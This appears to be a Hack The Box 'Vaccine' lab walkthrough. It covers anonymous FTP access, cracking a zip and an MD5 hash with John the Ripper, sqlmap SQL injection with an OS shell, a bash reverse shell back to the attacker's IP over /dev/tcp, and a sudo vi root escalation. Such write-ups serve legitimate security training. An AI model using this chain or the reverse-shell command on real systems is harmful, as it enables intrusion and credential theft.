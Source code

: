 # Vaccine HTB Writeup

Today we will be pwning the htb machine "vaccine." 
# Reconnaissance
Per usual, we will be running an nmap scan with the flag -sV to tell nmap to return information about the services running on the open ports it discovers.

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_11_43_19.png?raw=true)

```bash
nmap -sV [machine-ip]
```
After running the nmap scan, we see that there is 3 open ports running on the machine. Them being an FTP server, an SSH server and an Apache webserver meaning this machine also has some form of website being hosted on it. From here we are going to attempt to login to the FTP server (file transfer protocol) as if it has been misconfigured we could potentially login without needing a password.

![So yeah dis it](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_11_56_37.png?raw=true)

```bash
ftp [target-ip]
```
Using the username `anonymous` we can successfully login to the server without needing any other credentials (see image).
By running the command `ls` (or `dir`) we can see the files and directories in our local directory. The only file returned by this command is named backup.zip so we download it with the command `get backup.zip`. From there, we can exit the ftp server

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_12_02_03.png?raw=true)
Now we can attempt to unzip this file with the command `unzip [file]`.

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_12_03_29.png?raw=true)

The archive is protected by a password so we are prompted by unzip to enter the password for the file to allow us to extract its data. Unfortunately, we do not know this password. So we must go for a slightly different approach...

We will have to bruteforce the zip's password. To do this we will use the tool "John the Ripper
```
John the Ripper is an Open Source password security auditing and password recovery tool available for many operating systems. **John the Ripper jumbo** supports hundreds of hash and cipher types, including for: user passwords of Unix flavors (Linux, *BSD, Solaris, AIX, QNX, etc.), macOS, Windows, "web apps" (e.g., WordPress), groupware (e.g., Notes/Domino), and database servers (SQL, LDAP, etc.); network traffic captures (Windows network authentication, WiFi WPA-PSK, etc.); encrypted private keys (SSH, GnuPG, cryptocurrency wallets, etc.), filesystems and disks (macOS .dmg files and "sparse bundles", Windows BitLocker, etc.), archives (ZIP, RAR, 7z), and document files (PDF, Microsoft Office's, etc.) These are just some of the examples - there are many more.
```
To do this, we first must install john the ripper, if you are on Kali Linux then run `sudo apt install john -y`. If you are on another distro please refer to their [github page](https://github.com/openwall/john). 

Once you have installed John, use `zip2john` to convert the zip archive into a crack-able hash.

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_12_07_57.png?raw=true)

```bash
zip2john backup.zip > hash
```
Please note for the next part you need to have the rockyou wordlist installed (check out https://github.com/danielmiessler/SecLists).
Now we'll type the following command to crack the password for the file (make sure to add the path to your wordlist): 
`john -wordlist=/path/to/the/wordlist/rockyou.txt hash`

This command will load the wordlist and attempt to bruteforce the zip archives' password (output shown in image is different to what you will see, its just because I've already cracked the pass). Then use the command `john --show hash` to view the cracked password. 

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_13_41_48.png?raw=true)

As you can see, the password for the zip archive is `741852963`, now we can unzip the file and check out its contents.

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_13_46_07.png?raw=true)

After unzipping, we can see the zip was made out of an index.php file and a style.css file. Run `cat index.php` to view the file's contents.

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_13_47_37.png?raw=true)

As you can see, the admin accounts credentials are stored at the top of the php file (`admin:2cb42f8734ea607eefed3b70af13bbd3`). However, the password seems to resemble some sort of hash, so we must crack it using John.

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_13_50_18.png?raw=true)

The command `hashid [hash]` returns many potential types of hash it could be however we are going to try MD5 first as it is very commonly used.

First we've had to add the hash to a file using `echo '2cb42f8734ea607eefed3b70af13bbd3' > pass` and now we can get bruteforcing!

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_14_17_28.png?raw=true)
```bash
john --format=raw-md5 --wordlist=/path/to/wordlist/rockyou.txt filewithhash
```

Now, once John has finished bruteforcing, we can see that the password is `qwerty789`. From here, we will open the website being hosted on the machine in our browser, revealing a login page.

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_14_19_43.png?raw=true)

By supplying the username and password we cracked, we can log in to the website and we are now logged in to an admin panel!

The dashboard seems to have nothing special in it except for a search bar which could potentially be linked to a database. When we search for something, the $search variable is used in the URL to fetch stuff from the database. This website may be vulnerable to SQL injection attacks. We could do this manually but why not use another little toy called SQLmap.

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_14_25_17.png?raw=true)

Now, we must install SQLmap with the command
`sudo apt install sqlmap -y`
To test this website we need to give the following parameters - the url and the cookie (required for authentication)
To grab this coookie we must intercept any request from the website with BurpSuite, however you can also use the extension cookie-editor. For efficiency purposes, I will be using the extension in this case, you can install it [here](https://chrome.google.com/webstore/detail/cookie-editor/hlkenndednhfkekhgcdicdfddnkalmdm) for Chrome and [here](https://addons.mozilla.org/en-US/firefox/addon/cookie-editor/) for Firefox.

Now whilst on the dashboard, run the extension.
The format HTTP messages of requests are usually sent in this way:
`PHPSESSID=[cookie-from-ext]`
Now that we know the syntax, we can use SQLmap to find any SQL injection vulnerabilities. 

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_14_45_15.png?raw=true)

```bash
sqlmap -u 'http://[target-ip]/dashboard.php?search=query' --cookie="PHPSESSID=[your-cookie]"
```
Out of all this jumble, the most important thing to be able to quickly recognise vulnerabilities are the prompts, (answer yes to all). In this case, the prompt `GET parameter 'search' is vulnerable. Do you want to keep testing the others (if any)?  
[y/N]` simply tells us the website is vulnerable.

SQLmap confirmed that the target is vulnerable to SQL injectio. Now we will rerun SQLmap but with the  --os-shell flag, where we will be able  to perform command injection.

```bash
sqlmap -u 'http://[target-ip]/dashboard.php?search=query' --cookie="PHPSESSID=[your-cookie]" --os-shell
```
After running this command, please open up a new terminal tab and start a netcat listener with `sudo nc -lvnp 443`.
Then, on the terminal running SQLmap run the payload:
```bash
bash -c "bash -i >& /dev/tcp/[your-tun0-IP]/443 0>&1"
```
Now, go back listener and you should be connected to the machine!
The userflag is located in `/var/lib/postgresql/`:

```bash
your@terminal:~$ cd /var/lib/postgresql
your@terminal:~$ ls  
user.txt  
your@terminal:~$ cat user.txt
NO CHEATING, DO IT YOURSELF
your@terminal:~$
```

# Privilege Escalation 

We are currently the user `postgres`,  however we do not know the password for the account meaning we cannot execute commands that require root privileges.
Since the machine uses both PHP and SQL we could attempt to find the passwords in clear text. The first place to check is `/var/www/html`.

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_20_07_15.png?raw=true)

Enter the directory and then run `grep "pass" dashboard.txt
By using grep, we can search the files in that directory for specific keywords. In this case, I used the keyword pass to find any occurrences of the word in `dashboard.php`. Fortunately, there was, and it is the password for the user (`P@s5w0rd!`) we are currently logged into (`postgres`). 
Due to the instability of the shell we are currently in, we will now login to the machine via SSH (using the password we found).

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_20_09_14.png?raw=true)

```ssh postgres@[target-ip]```

Now, we will type `sudo -l` again to see what privileges we have.

We have sudo privileges to edit the `pg_hba.conf` file using vi by running `sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`
To do this, we must first enter vi via
`sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`.  This opens vi as root.

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_20_14_15.png?raw=true)

Now, type `:set shell=/bin/sh`

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_20_14_48.png?raw=true)

Now, we can type `:shell`, this command should then load a shell which if we run `whoami` tells us we are root!

![enter image description here](https://github.com/7ud/writeups/blob/main/HTB/images/VirtualBox_kali-linux-2022.3-virtualbox-amd64_24_10_2022_20_16_15.png?raw=true)

Now, we have root but we do not know where the flag is stored. After a bit of digging, we find the flag to be stored in `/root`. Finally, cd into `/root` , run `ls` to show the files in the directory and run `cat root.txt`  to view the flag!
